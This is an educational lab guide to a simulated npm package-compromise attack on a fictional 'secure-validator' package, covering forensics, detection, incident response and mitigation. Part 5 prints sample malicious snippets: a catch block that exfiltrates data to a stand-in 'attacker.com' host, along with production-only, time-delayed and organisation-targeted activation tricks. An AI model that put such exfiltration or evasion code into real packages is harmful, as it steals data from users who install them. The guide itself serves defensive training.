



# 🚀 Zero to Hero: Scenario 3 - Compromised Package Attack

Welcome! This guide will take you from zero knowledge to successfully completing the Compromised Package attack scenario. We'll go step by step, explaining everything along the way.

## 📚 What You'll Learn

By the end of this guide, you will:
- Understand how legitimate packages get hijacked
- Learn account takeover techniques
- Execute a package compromise simulation (safely)
- Conduct forensic investigation
- Perform incident response
- Implement detection and prevention strategies

- Apply the **Mitigation Playbook** from this guide and the scenario README
---

## Table of Contents

<div class="doc-toc">

- [Part 1: Understanding Package Compromise (10 minutes)](#part-1-understanding-package-compromise-10-minutes)
- [Part 2: Prerequisites Check (5 minutes)](#part-2-prerequisites-check-5-minutes)
- [Part 3: Setting Up Scenario 3 (15 minutes)](#part-3-setting-up-scenario-3-15-minutes)
- [Part 4: Understanding the Legitimate Package (15 minutes)](#part-4-understanding-the-legitimate-package-15-minutes)
- [Part 5: The Attack - Account Compromise (25 minutes)](#part-5-the-attack---account-compromise-25-minutes)
- [Part 6: Forensic Investigation (30 minutes)](#part-6-forensic-investigation-30-minutes)
- [Part 7: Detection Methods (25 minutes)](#part-7-detection-methods-25-minutes)
- [Part 8: Incident Response & Mitigation (30 minutes)](#part-8-incident-response--mitigation-30-minutes)
- [Part 9: Understanding the Attack Flow (10 minutes)](#part-9-understanding-the-attack-flow-10-minutes)
- [Mitigation Playbook](#mitigation-playbook)
- [Elasticsearch + Kibana observability (optional)](#elasticsearch--kibana-observability-optional)
- [Part 10: Clean Up and Next Steps (5 minutes)](#part-10-clean-up-and-next-steps-5-minutes)
- [🆘 Troubleshooting](#🆘-troubleshooting)
- [📚 Additional Resources](#📚-additional-resources)
- [⚠️ Important Reminders](#⚠️-important-reminders)
- [🎉 Congratulations!](#🎉-congratulations)

</div>

---
## Part 1: Understanding Package Compromise (10 minutes)

### What is a Compromised Package?

**Package Compromise** occurs when attackers gain control of a legitimate, trusted package and inject malicious code. This is one of the most dangerous supply chain attacks because the package has already established trust.

### Why It's Dangerous

- **High Trust**: Package is already trusted by millions of users
- **Wide Distribution**: Affects all users who install/update
- **Difficult Detection**: Malicious code is hidden in legitimate package
- **Long Duration**: Can go undetected for weeks or months

### Real-World Examples

**event-stream (2018)**:
- 2 million weekly downloads
- New maintainer added cryptocurrency stealer
- Targeted Copay Bitcoin wallet
- Went undetected for weeks

**ua-parser-js (2021)**:
- 7 million weekly downloads
- Maintainer account compromised
- Versions 0.7.29, 0.8.0, 1.0.0 contained crypto miners
- Used in Facebook, Apple, Amazon, Microsoft products

**colors.js & faker.js (2022)**:
- Maintainer deliberately sabotaged own packages
- Infinite loop causing denial of service
- Affected thousands of projects

### Common Attack Vectors

1. **Credential Theft**: Stealing maintainer npm/PyPI credentials
2. **Social Engineering**: Tricking maintainers into adding malicious maintainers
3. **Account Takeover**: Exploiting weak passwords or no 2FA
4. **Abandoned Packages**: Taking over unmaintained packages
5. **Malicious Contributors**: Long-game infiltration

---

## Part 2: Prerequisites Check (5 minutes)

Before we start, make sure you've completed:

- ✅ Scenario 1 (Typosquatting) - Understanding basic attacks
- ✅ Scenario 2 (Dependency Confusion) - Understanding package resolution
- ✅ Node.js 16+ and npm installed
- ✅ TESTBENCH_MODE enabled

Verify your setup:

```bash
node --version
npm --version
echo $TESTBENCH_MODE  # Should output: enabled
```

---

## Part 3: Setting Up Scenario 3 (15 minutes)

### Step 1: Navigate to Scenario Directory

```bash
cd scenarios/03-compromised-package
```

### Step 2: Run the Setup Script

```bash
./setup.sh
```

**What this does:**
- Creates directory structure
- Sets up legitimate package
- Creates compromised package version
- Sets up victim application
- Creates forensic tools

**Expected output:**
- Setup progress messages
- Directories and files created
- "Next Steps" displayed

### Step 3: Understand the Environment

**The Package**: `secure-validator`
- **Legitimate Version**: 2.5.3 (in `legitimate-package/`)
- **Compromised Version**: 2.5.4 (in `compromised-package/`)
- **Purpose**: Input validation and sanitization
- **Weekly Downloads**: 10,000,000+
- **Maintainer**: John Doe (compromised account)

**The Attack**: 
- Attacker obtained maintainer credentials
- Published malicious version 2.5.4
- Users updating from 2.5.3 to 2.5.4 get compromised

---

## Part 4: Understanding the Legitimate Package (15 minutes)

### Step 1: Examine the Original Package

```bash
cd legitimate-package/secure-validator
cat package.json
cat index.js
```

**What to notice:**
- Clean, straightforward code
- Simple validation functions
- No suspicious behavior
- Version 2.5.3

**Package Details:**
- Name: `secure-validator`
- Version: 2.5.3
- Purpose: Input validation and sanitization
- Maintainer: John Doe (john@example.com)

### Step 2: Understand the Functionality

The package provides:
- Input validation functions
- Sanitization utilities
- Common validation patterns

This is a trusted, widely-used package.

---

## Part 5: The Attack - Account Compromise (25 minutes)

### Step 1: Understand the Compromise

**Scenario**: Attacker has obtained the maintainer's npm credentials through:
- Phishing email with fake "npm security alert"
- Credentials: `johndoe` / `weakpassword123`
- No 2FA enabled on the account

### Step 2: Examine the Compromised Package

```bash
cd ../../compromised-package/secure-validator
cat package.json
cat index.js
```

**Key Changes:**
1. **Version bump**: 2.5.3 → 2.5.4 (patch version, seems safe)
2. **Malicious code**: Hidden in the codebase
3. **Stealth**: Maintains all original functionality

**What the malicious code does:**
- Collects environment variables
- Scans for sensitive files
- Exfiltrates data to attacker server
- Runs during normal operations (hard to detect)

### Step 3: Review the Malicious Template

```bash
cat ../../templates/compromised-package-template.js
```

**Advanced Techniques Used:**

1. **Hidden in Error Handling**:
   ```javascript
   try {
     // Normal code
   } catch (e) {
     require('http').get('http://attacker.com/log?e=' + e);
     throw e; // Re-throw to appear normal
   }
   ```

2. **Conditional Execution**:
   ```javascript
   if (process.env.NODE_ENV === 'production') {
     // Malicious code only runs in production
   }
   ```

3. **Time-Delayed Activation**:
   ```javascript
   setTimeout(() => {
     // Malicious code runs after 30 days
   }, 30 * 24 * 60 * 60 * 1000);
   ```

4. **Target Detection**:
   ```javascript
   if (process.cwd().includes('target-company-name')) {
     // Targeted attack on specific organization
   }
   ```

### Step 4: Start the Mock Attacker Server

```bash
# Go back to scenario root
cd ../../

# Start mock server (if not already running)
node infrastructure/mock-server.js &
```

**Verify it's running:**
```bash
curl http://localhost:3000/captured-data
```

### Step 5: Install the Compromised Package

```bash
# Navigate to victim application
cd victim-app

# Install the compromised version
npm install ../compromised-package/secure-validator
```

**What just happened:**
- Installed version 2.5.4 (compromised)
- Malicious code is now in node_modules
- Package appears legitimate

### Step 6: Run the Victim Application

```bash
# Make sure TESTBENCH_MODE is enabled
export TESTBENCH_MODE=enabled

# Run the application
npm start
```

**What to expect:**
- Application runs normally
- Malicious code executes in background
- Data is exfiltrated silently

### Step 7: Verify the Compromise

```bash
# Check which version was installed
npm list secure-validator

# Check captured data
curl http://localhost:3000/captured-data
```

**What you should see:**
- Version: 2.5.4 (compromised version)
- Captured data in mock server
- Attack successful!

---

## Part 6: Forensic Investigation (30 minutes)

Now let's switch roles and become security analysts. Unusual activity has been reported. Investigate!

### Investigation Step 1: Identify Suspicious Behavior

```bash
# Check application logs (if available)
# Monitor network traffic
cd ../..
./detection-tools/network-monitor.sh
```

**Red Flags:**
- Unexpected network connections
- Unusual CPU usage
- New outbound connections
- Suspicious file access

### Investigation Step 2: Package Analysis

```bash
# Compare package versions
cd scenarios/03-compromised-package
diff -ur legitimate-package/secure-validator compromised-package/secure-validator
```

**What to Look For:**
- Code changes in patch versions (suspicious!)
- New dependencies added
- Obfuscated code
- Network requests
- File system access
- Process spawning

### Investigation Step 3: Diff Analysis

```bash
# Generate detailed diff
diff -ur legitimate-package/secure-validator compromised-package/secure-validator > compromise-diff.txt

# Review the diff
cat compromise-diff.txt
```

**Analysis Questions:**
- What code was added?
- Where was it added?
- Is it necessary for the stated functionality?
- Are there obfuscation attempts?

### Investigation Step 4: Timeline Reconstruction

```bash
# Check npm registry for publish history (simulated)
# In real scenario, you would check:
# npm view secure-validator time

# Check maintainer changes (simulated)
# npm owner ls secure-validator
```

**Build Timeline:**
- When was the package compromised?
- How long was it active?
- What versions are affected?
- Who published the malicious versions?

### Investigation Step 5: Behavioral Analysis

```bash
# Run package in sandboxed environment (if tool exists)
# Monitor:
# - Network requests
# - File operations
# - Child processes
# - System calls
```

---

## Part 7: Detection Methods (25 minutes)

Implement multiple detection layers:

### Detection 1: Automated Scanning

```bash
cd ../detection-tools

# Run security scanner (if available)
# node package-security-scanner.js ../scenarios/03-compromised-package/victim-app
```

### Detection 2: Integrity Checking

```bash
cd ../scenarios/03-compromised-package/victim-app

# Verify package integrity
npm audit

# Check package checksums (if tool available)
```

### Detection 3: Behavior Monitoring

Create runtime monitoring:

```javascript
// monitoring-agent.js
const Module = require('module');
const originalRequire = Module.prototype.require;

Module.prototype.require = function(id) {
  console.log(`[MONITOR] Module required: ${id}`);
  
  // Detect suspicious requires
  if (['child_process', 'fs', 'http', 'https'].includes(id)) {
    console.warn(`[ALERT] Sensitive module accessed: ${id}`);
  }
  
  return originalRequire.apply(this, arguments);
};
```

### Detection 4: Package Lock Validation

```bash
# Check if package-lock.json was modified
git diff package-lock.json

# Verify integrity hashes
```

### Detection 5: Version Comparison

```bash
# Compare installed version with expected version
npm list secure-validator

# Check for unexpected version bumps
```

---

## Part 8: Incident Response & Mitigation (30 minutes)

**The package has been confirmed as compromised. Respond!**

### Response Step 1: Immediate Containment

```bash
# 1. Remove the compromised package
npm uninstall secure-validator

# 2. Clear caches
npm cache clean --force

# 3. Alert development team
echo "CRITICAL: secure-validator compromised"
```

### Response Step 2: Impact Assessment

```bash
# Find all affected projects
# Check which versions are affected
npm view secure-validator versions

# Identify compromised versions: 2.5.4, 2.5.5, 2.5.6
```

### Response Step 3: Remediation

**Option A: Pin to Safe Version**

```json
{
  "dependencies": {
    "secure-validator": "2.5.3"  // Last known good version
  }
}
```

**Option B: Replace with Alternative**

```bash
npm uninstall secure-validator
npm install validator  # Alternative package
```

**Option C: Fork and Audit**

```bash
# Create internal fork
git clone https://github.com/original/secure-validator
cd secure-validator
git checkout v2.5.3  # Safe version
# Publish to internal registry
```

### Response Step 4: System Cleanup

```bash
# Check for persistence mechanisms
# Scan for exfiltrated data
# Rotate compromised credentials
```

### Response Step 5: Prevention

Implement preventive measures:

1. **Package Lock File Enforcement**:
   ```bash
   # In CI/CD, use npm ci instead of npm install
   npm ci --audit
   ```

2. **Dependency Pinning**:
   ```json
   {
     "dependencies": {
       "secure-validator": "2.5.3"  // Exact version
     }
   }
   ```

3. **Automated Scanning**:
   ```yaml
   # .github/workflows/security.yml
   - name: Security Audit
     run: |
       npm audit --audit-level=moderate
       npm run security-scan
   ```

4. **Package Integrity Verification**:
   ```bash
   # Verify package signatures
   npm install --integrity
   ```

5. **Runtime Monitoring**:
   - Deploy application monitoring
   - Alert on suspicious behavior
   - Log all package installations

---

## Part 9: Understanding the Attack Flow (10 minutes)

### The Complete Attack Chain

1. **Initial Compromise**: Attacker gains access to maintainer account
2. **Package Modification**: Malicious code injected into package
3. **Version Publishing**: New version published (2.5.4)
4. **User Updates**: Users update to compromised version
5. **Malicious Execution**: Malicious code runs during normal operations
6. **Data Exfiltration**: Sensitive data sent to attacker
7. **Persistence**: Attack continues until detected

### Why It's Hard to Detect

- **Legitimate Package**: Package is already trusted
- **Patch Version**: Users expect patches to be safe
- **Stealth**: Malicious code is hidden
- **Functionality Preserved**: Package still works normally
- **Gradual Spread**: Affects users as they update

---

## Mitigation Playbook

Canonical prevention and mitigation controls (aligned with the [scenario README](../../../scenarios/03-compromised-package/README.md)). Lab walkthroughs above expand each control with hands-on steps.

- Enforce lockfiles in CI (`npm ci --audit`) instead of open-ended `npm install`.
- Pin exact versions for packages with high trust or wide blast radius.
- Run automated security scanning on dependency updates (`npm audit`, custom scanners).
- Verify package integrity and signatures when the registry supports them.
- Monitor runtime behavior and log package installation events in production.
- Maintain maintainer-transfer and dependency-addition review policies.

---

## Code-level workflow



*Code-level workflow for Scenario 03. Editable source: [`scas-codeflow-scenario-03.excalidraw`](../../assets/diagrams/codeflow/excalidraw/scas-codeflow-scenario-03.excalidraw). Regenerate with `node scripts/diagrams/generate-scenario-codeflow-diagrams.js`.*

## Elasticsearch + Kibana observability (optional)

Scenario **03 - Compromised Package** is indexed in Elasticsearch when the observability stack is running.

Compromised package: a maintainer-hijacked release of secure-validator runs malicious code after install.

- **Detection runbook (static)** → index `scas-rules`, document id `03` - IOCs, Sigma, YARA, sample logs from `DETECT.md`
- **Runtime captures (dynamic)** → index `scas-detections` - one document per exfil event when `SCAS_ES_URL` is set before starting the mock collector

### How to read this diagram

| Phase | What you should look for |
|-------|--------------------------|
| **1 - Collectors** | Terminal A starts the mock server (or harvester). Set `SCAS_ES_URL` here if you want live Elasticsearch indexing. |
| **2 - Lab execution** | Terminal B runs the scenario README steps. See the **sequence diagram** and **Scenario-specific attack steps** below. |
| **3 - Exfiltration** | Malicious sample sends **localhost-only** JSON to the mock endpoint. Evidence is always written to `infrastructure/` on disk. |
| **4 - Elasticsearch** | When `SCAS_ES_URL` is set, the same capture is indexed into `scas-detections` with `scenario_id` and `event_type=exfil_capture`. |
| **5 - Kibana** | Use the per-scenario saved searches to compare **runtime captures** (Detections) with the **static runbook** (Rules). |

> **Safety:** All network calls stay on `127.0.0.1`. Malicious logic runs only when `TESTBENCH_MODE=enabled`.

### End-to-end flow



*Swimlane diagram for Scenario 03. Editable source: [`scas-observability-scenario-03.excalidraw`](../../assets/diagrams/observability/excalidraw/scas-observability-scenario-03.excalidraw). Regenerate with `node scripts/diagrams/generate-scenario-observability-diagrams.js`.*

### Sequence diagram (Phase 1-5)

Same flow as a participant sequence (expandable in the docs hub).



### Scenario-specific attack steps (Phase 2)

Same Phase-2 path as the diagrams above (for skimming / accessibility).

| # | From | To | Action |
|---|------|----|--------|
| 1 | Learner | Victim | npm install (pulls compromised secure-validator) |
| 2 | Learner | Victim | npm start |
| 3 | Victim | MalPkg | require compromised secure-validator |
| 4 | MalPkg | MalPkg | Execute trojanized release logic |

### Prerequisites

From the repository root:

```bash
./scripts/observability/elasticsearch-up.sh
./scripts/observability/setup-kibana-data-views.sh   # data views + saved searches for all 23 scenarios
```

### Run this scenario with live Elasticsearch forwarding

**Terminal A - mock collector** (from `scenarios/03-compromised-package`):

```bash
cd scenarios/03-compromised-package
export TESTBENCH_MODE=enabled
export SCAS_ES_URL=http://localhost:9200
node infrastructure/mock-server.js
```

**Terminal B - execute the lab:**

```bash
cd scenarios/03-compromised-package
export TESTBENCH_MODE=enabled
export SCAS_ES_URL=http://localhost:9200
cd victim-app && npm install && npm start
```

### Verify locally (file-based evidence)

```bash
curl -s http://localhost:3000/captured-data
```

### Verify in Elasticsearch (API)

```bash
# Static runbook for this scenario
curl -s "http://localhost:9200/scas-rules/_doc/03?pretty"

# Latest runtime capture events
curl -s "http://localhost:9200/scas-detections/_search?pretty" \
  -H 'Content-Type: application/json' \
  -d '{
    "query": { "term": { "scenario_id": "03" } },
    "sort": [{ "@timestamp": "desc" }],
    "size": 5
  }'
```

### Verify in Kibana (UI)

1. Open [http://localhost:5601](http://localhost:5601)
2. **Discover** → **SCAS Detections - Scenario 03** - live capture timeline (`@timestamp`, `package.name`, `detail`)
3. **Discover** → **SCAS Rules - Scenario 03** - compare against `iocs`, `sigma`, and `yara` fields
4. Ask: *Does each capture field match an IOC or Sigma condition in the runbook?*

See [observability/README.md](../../../observability/README.md) for stack details.

## Part 10: Clean Up and Next Steps (5 minutes)

### Clean Up

```bash
# Stop mock server (if running manually)
# ps aux | grep mock-server
# kill <PID>
```

### What You've Accomplished

✅ Understood package compromise attacks  
✅ Executed a package compromise simulation (safely)  
✅ Conducted forensic investigation  
✅ Performed incident response  
✅ Implemented detection and prevention strategies  

### Next Steps

1. **Try Scenario 6**: Shai-Hulud Self-Replicating Attack
2. **Experiment**: Try different obfuscation techniques
3. **Read more**: Study real-world compromise cases
4. **Practice**: Implement detection in a real project

---

## 🆘 Troubleshooting

### Problem: "Package not found"

**Solution:**
```bash
# Make sure you're using the correct path
cd scenarios/03-compromised-package
npm install ../compromised-package/secure-validator
```

### Problem: "No data captured"

**Solution:**
```bash
# Verify TESTBENCH_MODE is enabled
echo $TESTBENCH_MODE

# Check mock server is running
curl http://localhost:3000/captured-data

# Restart mock server if needed
node infrastructure/mock-server.js &
```

### Problem: "Diff shows no differences"

**Solution:**
```bash
# Make sure both directories exist
ls -la legitimate-package/secure-validator
ls -la compromised-package/secure-validator

# Run diff with more context
diff -ur legitimate-package/secure-validator compromised-package/secure-validator | head -100
```

---

## 📚 Additional Resources

- **Main README**: `README.md`
- **Scenario README**: `scenarios/03-compromised-package/README.md`
- **event-stream Case Study**: Research the 2018 incident
- **npm Security Best Practices**: https://docs.npmjs.com/security

---

## ⚠️ Important Reminders

- ✅ This is for **EDUCATIONAL purposes only**
- ✅ Use **ONLY in isolated environments**
- ✅ **Never** deploy malicious code to production
- ✅ **Always** set `TESTBENCH_MODE=enabled`
- ✅ **Never** test on systems you don't own

---

## 🎉 Congratulations!

You've completed the Compromised Package attack scenario! You now understand:
- How packages get compromised
- How to detect compromises
- How to respond to incidents
- How to prevent future compromises

**Remember**: Trusted packages can be compromised at any time. Always verify and monitor!

Happy learning! 🔐
